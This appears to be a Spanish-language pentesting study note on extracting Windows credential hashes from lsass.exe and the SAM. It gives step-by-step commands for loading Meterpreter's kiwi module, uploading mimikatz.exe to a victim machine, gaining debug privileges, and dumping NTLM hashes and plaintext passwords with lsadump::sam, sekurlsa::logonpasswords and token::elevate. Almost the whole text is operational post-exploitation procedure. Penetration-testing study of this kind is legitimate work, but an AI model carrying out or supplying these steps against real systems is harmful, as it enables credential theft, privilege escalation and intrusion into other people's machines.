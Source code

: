 SAM es una base de datos en windows dónde se almacenan las credenciales de los usuarios. Esta base de datos está en memoria RAM. El proceso lsass.exe, el cuál se encarga de la autenticación de los usuarios, interactúa con la SAM y guarda en una caché los hashes NTLM de los usuarios. 
Mediante la herramienta de Mimikatz podremos extraer estos hashes de la memoria del proceso lsass.exe. También si tenemos una sessión de meterpreter podemos usar el módulo mimi de meterpreter.

Requisitos:
Tener una sessión con usuario que pertenezca al localgroup administrators.

## Kiwi meterpreter module
1. En una sesion meterpreter escribímos `load kiwi`
2.  Abrimos con `?` el menú de ayuda de meterpreter.
3. Distintos comandos, con creds_all obtenemos todo, con lsas_dump_sam obtenemos los hashes NTLM de los usuarios.
## Mimikatz precompiled executable
1. Vamos a C:\ en la máquina víctima y creamos, si no existe, directorio Temp.
2. `upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
3. abrimos desde meterpreter una shell normal con comando `shell`
4. Ejecutamos `.\mimikatz.exe` Se nos abrirá la consola de mimikatz
5. Comprobamos que tenemos los privilegios necesarios para extraer los hashes del proceso lsass.exe usando esta herramienta con el comando: `privilege::debug`. Si nos da el OK podemos.
### Comandos de mimikatz
-  `lsadump::sam` -> Extrae los hashes NTLM de los usuarios
-  `lsadump::secrets`
-  `sekurlsa::logonpasswords`   Si un usuario logea en windows, si este ha sido configurado para guardar en memoria contraseñas usadas para logear, mimikatz puede mostrarte estas contraseñas en texto plano.
- `token::elevate` : si ejecutamos mimikatz como usuario administrador y no nos deja dumpear las contraseñas usar este comando para elevar a system

